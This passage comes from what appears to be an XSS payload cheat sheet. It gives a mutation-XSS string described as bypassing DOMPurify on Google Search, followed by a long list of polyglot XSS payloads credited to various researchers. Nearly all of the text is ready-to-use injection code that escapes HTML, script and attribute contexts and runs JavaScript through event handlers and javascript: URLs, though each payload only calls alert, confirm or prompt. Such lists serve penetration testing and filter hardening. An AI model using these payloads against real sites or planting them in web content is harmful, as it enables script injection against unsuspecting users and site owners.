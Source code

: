 Use browsers quirks to recreate some HTML tags when it is inside an
`element.innerHTML`.

Mutated XSS from Masato Kinugawa, used against DOMPurify component on Google
Search. Technical blogposts available at
https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/
and https://research.securitum.com/dompurify-bypass-using-mxss/.

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Polyglot XSS

Polyglot XSS - 0xsobky

```javascript
jaVasCript: /*-/*`/*\`/*'/*"/**/ /* */ oNcliCk = alert(); //%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed

```javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

Polyglot XSS - Mathias Karlsson

```javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

Polyglot XSS - Rsnake

```javascript
";alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88, 83, 83)); //";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Polyglot XSS - Daniel Miessler

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```
